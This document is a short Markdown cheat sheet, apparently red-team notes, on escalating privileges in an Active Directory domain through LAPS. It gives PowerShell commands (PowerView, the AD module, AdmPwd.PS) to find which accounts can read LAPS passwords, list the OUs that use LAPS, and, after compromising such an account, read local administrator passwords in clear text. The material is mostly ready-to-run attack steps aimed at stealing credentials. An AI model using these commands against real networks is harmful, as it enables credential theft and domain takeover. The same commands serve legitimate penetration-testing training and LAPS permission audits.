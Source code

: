 # Domain Privilege Escalation [ LAPS ]
## Methodology/Steps

> 1. Identify the user who can read the LAPS creds
> 2. Identify the OU where LAPS is implemented and which user can read it
> 3. After compromising the user who can read the LAPS, read the creds

---

## PowerView 
### 1. To find users who can read the passwords in clear text machines in OUs
```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

### 2. To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text
```powershell
# Using Active Directory module
.\Get-LapsPermissions.ps1

# Using LAPS module (can be copied across machines)
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

### 3. Once we compromise the user which has the Rights, use the following to read clear-text password
```powershell
# Powerview
Get-DomainObject -Identity <identity> | select - ExpandProperty ms-mcs-admpwd

# Active Directory module
Get-ADComputer -Identity <identity> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd

# LAPS module
Get-AdmPwdPassword -ComputerName <computrt-name>
```
